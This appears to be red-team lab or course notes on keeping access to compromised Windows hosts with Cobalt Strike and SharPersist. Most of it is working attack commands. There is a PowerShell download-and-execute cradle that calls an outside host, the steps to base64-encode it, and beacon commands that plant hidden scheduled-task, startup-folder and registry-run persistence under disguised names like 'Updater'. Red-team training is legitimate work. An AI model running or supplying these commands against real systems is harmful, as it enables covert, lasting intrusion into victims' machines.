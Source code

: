 # Persistence 



Persistence is a method of regaining or maintaining access to a compromised machine, without having to exploit the initial compromise steps all over again. Workstations are volatile since users tend to logout or reboot them frequently.

If you've gained initial access through a phishing campaign, it's unlikely you'll be able to do so again if your current Beacon is lost, which could be the end of the engagement. If you're on an assume-breach (or indeed in this lab) and have access to an internal host, the loss of complete access to the environment is less of a concern. However, you may still need to drop one or more persistence mechanisms on hosts you control if your simulated threat would also do so.

Installing persistence usually involves making some configuration change or dropping a payload to disk, which is why they can carry a high risk of detection, but they are also very useful (and practically essential) during long-term engagements. You must strike a delicate balance of keeping the operation going and getting caught.

Persistence can be executed within userland (e.g. as the current user) or in an elevated context such as SYSTEM. Elevated persistence requires that we become local admin on the host first, which is covered in the Privilege Escalation section coming up next.

Common userland persistence methods include:

    HKCU / HKLM Registry Autoruns
    Scheduled Tasks
    Startup Folder

 

Cobalt Strike doesn't include any built-in commands specifically for persistence. SharPersist is a Windows persistence toolkit written by FireEye. It's written in C#, so can be executed via execute-assembly.


# Windows Task Scheduler 

The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. That trigger could be a time of day, on user-logon, when the computer goes idle, when the computer is locked, or a combination thereof.

Let's create a scheduled task that will execute a PowerShell payload once every hour.  To save ourselves from having to deal with lots of quotations in the IEX cradle, we can encode it to base64 and execute it using the -EncodedCommand parameter in PowerShell (often appreciated to -enc).  This is a little complicated to do, because it must use Unicode encoding (rather than UTF8 or ASCII).

## PowerShell:

PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA


## Linux:

ubuntu@DESKTOP-3BSK7NO ~> set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
ubuntu@DESKTOP-3BSK7NO ~> echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add


#Registry Auto Run 
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
